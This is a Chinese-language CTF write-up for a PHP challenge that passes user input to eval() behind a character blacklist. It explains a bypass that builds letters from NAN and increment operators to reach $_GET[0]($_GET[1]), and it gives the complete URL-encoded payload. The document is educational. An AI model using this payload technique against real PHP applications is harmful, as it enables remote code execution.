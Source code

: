 # 前言

没有打比赛，但是有个师傅问了我这题，做了一下发现不会，学习了一波Y4师傅的WP。

# WP

f12传个`?🐶`既可以获得完整的源码：

```php
<?php
if(isset($_GET['🐶'])) {
    highlight_file(__FILE__);
}
function filter($payload) {
    if (preg_match("/[a-zA-BD-Z!@#%^&*:'\"|`~\\\\]|3|5|6|9/",$payload)) {
        return true;
    }
}
?>
<!-- ?🐶 -->
<?php
error_reporting(0);
include "config.php";

if (isset($_POST['VietNam'])) {
    $VN = $_POST['VietNam'];
    if (filter($VN)) {
        die("nope!!");
    }
    if (!is_string($VN) || strlen($VN) > 110) {
        die("18cm30p ??? =)))");
    }
    else {
        $VN = "echo ".$VN.";";
        eval($VN);
    }
} else {
    if (isset($_GET['check'])) {
        echo phpinfo();
    }
    else {
        highlight_file(__FILE__);
    }
}
?>

```



命令执行，限制了长度。对于数字字母，只有大写字母C和数字12478可以用。

异或，或，取反都ban了，还剩下自增可以用。

先说说我失败的思路叭。传`?check`可以得到phpinfo，发现ban了太多的函数，但是没ban掉`exec`，因此可以考虑用`exec`来执行命令。但是自增的话，从C开始自增，不管怎么弄，都会超过长度110，因此就没想到好的办法，请教了一下Y4师傅。

解法的话，就是可以用到PHP中的NAN和INF：

```
NaN（Not a Number，非数）是计算机科学中数值数据类型的一类值，表示未定义或不可表示的值。常在浮点数运算中使用。首次引入NaN的是1985年的IEEE 754浮点数标准。

INF：infinite，表示“无穷大”。 超出浮点数的表示范围（溢出，即阶码部分超过其能表示的最大值）。
```

如何得到呢？可以这样：

```php
$_=C/C;//NAN
$_=1/C//INF
```

`C/C`这里，实际上运算的时候会变成`0/0`。而下面的则是`1/0`。

但是这还不是字符串，需要来个拼接即可，这样就可以去到N：

```php
$_=C/C.C;
var_dump($_[0]);
```

这样不用通过从C自增到N，可以减少很多的长度。

接下来就是想办法构造`_GET`，慢慢自增来拿到字母，然后拼接：

```php
$_=C;++$_;$C=++$_;++$_;$__=++$_;$_=(C/C.C)[0];++$_;++$_;++$_;++$_;++$_;++$_;$_=_.$__.$C.$_;
```

最后这样即可：

```php
$$_[0]($$_[1]);
```

相当于`$_GET[0]($_GET[1])`。

学到了学到了。

所以就是：

```php
$_=C;++$_;$C=++$_;++$_;$__=++$_;$_=(C/C.C)[0];++$_;++$_;++$_;++$_;++$_;++$_;$_=_.$__.$C.$_;$$_[0]($$_[1]);
```

post传的话还需要url编码。



```
VietNam=C%3B%24_%3DC%3B%2B%2B%24_%3B%24C%3D%2B%2B%24_%3B%2B%2B%24_%3B%24__%3D%2B%2B%24_%3B%24_%3D%28C%2FC.C%29%5B0%5D%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24_%3D_.%24__.%24C.%24_%3B%24%24_%5B0%5D%28%24%24_%5B1%5D%29
```



之后无回显命令执行，找flag即可。
